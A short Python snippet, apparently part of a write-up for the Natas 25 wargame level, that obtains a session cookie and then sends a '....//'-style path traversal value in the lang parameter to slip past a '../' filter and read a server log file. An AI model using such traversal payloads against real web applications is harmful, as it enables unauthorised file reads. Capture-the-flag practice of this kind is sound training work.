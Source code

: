```python

# executes a first request to get the session id
r = requests.get(target, auth=auth, params=params, cookies=cookies, headers=headers)
phpsessid=r.cookies['PHPSESSID']
log_file = '....//....//....//....//....//var/www/natas/natas25/logs/natas25_%s.log' % phpsessid
cookies = dict(PHPSESSID=phpsessid)

# "..././" is escaped to "../", we'll exploit it reach log_file
params = dict(lang=log_file)
r = requests.get(target, auth=auth, params=params, cookies=cookies, headers=headers)
print(r.text)
```
